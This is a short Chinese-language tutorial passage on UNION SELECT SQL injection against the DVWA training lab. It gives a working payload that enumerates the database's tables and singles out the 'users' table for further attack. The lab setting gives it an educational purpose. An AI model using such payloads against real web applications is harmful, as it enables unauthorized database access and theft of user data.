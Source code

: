 ![](img/47e70858938e7f320148738af4d5c3ad.png)

# 最后信息联合选择 SQLi 技术

现在是时候将我们的知识付诸实践，并使用 UNION SELECT 技术来查看所有的数据库结构信息和数据。

让我们列出所有的表，并隔离出我们需要继续攻击的表。

```
1' OR 1=1 UNION SELECT 1,table_name 
FROM information_schema.tables 
WHERE table_type='base table' AND table_schema='dvwa' #
```

从图像中，我们可以猜测我们感兴趣的表是名为“ *users* ”的表。

![](img/718cf16d650f820485fce22a5431dafd.png)
